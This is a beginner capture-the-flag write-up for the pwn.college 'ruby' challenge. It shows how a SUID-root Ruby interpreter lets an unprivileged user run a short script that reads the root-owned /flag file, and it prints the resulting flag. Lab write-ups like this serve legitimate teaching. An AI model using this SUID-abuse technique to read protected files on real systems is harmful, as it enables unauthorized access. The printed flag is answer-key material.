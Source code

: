 # Challenge Name: ruby
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/ruby`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/ruby
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/ruby
```

- The `s` in `-rws` indicates it's a SUID binary.
- `ruby` runs with **root privileges**.

## 🚀 Exploitation

We can simply use `ruby` to read flag from /flag as its suid set.

```bash
echo 'puts File.read("/flag")' > /tmp/readflag.rb
ruby /tmp/readflag.rb
```

Output:
```
pwn.college{0myJuALsill8aQVy80rpPn_J4mn.dVDOxwSM0IzMyEzW}
```
